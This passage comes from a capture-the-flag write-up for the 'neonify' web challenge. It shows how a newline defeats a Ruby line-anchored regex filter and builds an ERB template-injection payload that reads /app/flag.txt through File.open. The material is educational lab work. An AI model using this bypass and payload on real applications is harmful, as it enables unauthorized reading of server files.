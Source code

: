As expected, the input `Nehal<%= 7*7 %>` is not able to bypass the regex and hence we see the string `Not able to bypass :(`.

But here is the magic.

```ruby

my_input = "Nehal\n<%= 7*7 %>"

if my_input =~ /^[0-9a-z ]+$/i
  puts "BYPASSED :)"
else
  puts "Not able to bypass :( "
end

```

Here the input is changed to `Nehal\n<%= 7*7 %>`.

```bash

┌──(n3hal㉿Universe7)-[~/…/challenges/web/neonify/tests]
└─$ ruby script.rb 
BYPASSED :)

```

When we add the `\n` character is added, we can see the regex is bypassed and `BYPASSED :)` is printed.

In `ruby`, the `^` and `$` match at the start and end of each line. So if any (`!`) one line is matching, we have a successful match.

The `\n` separates the the input `Nehal\n<%= 7*7 %>` into 2 lines: `Nehal` and `<%= 7*7 %>`. Since the regex check for `Nehal` returns `true` we are able to bypass the regex for the string as a whole.

# CRAFTING THE PAYLOAD

In `ERB` based `SSTI`, we can read a file on the filesytem by `File.open('/path/to/file.txt').read`.

Combining the regex filter and SSTI, our final payload can be:

```
Nehal\n<%= File.open('/app/flag.txt').read %>
```

![](/assets/images/writeups/neonify/3.png)
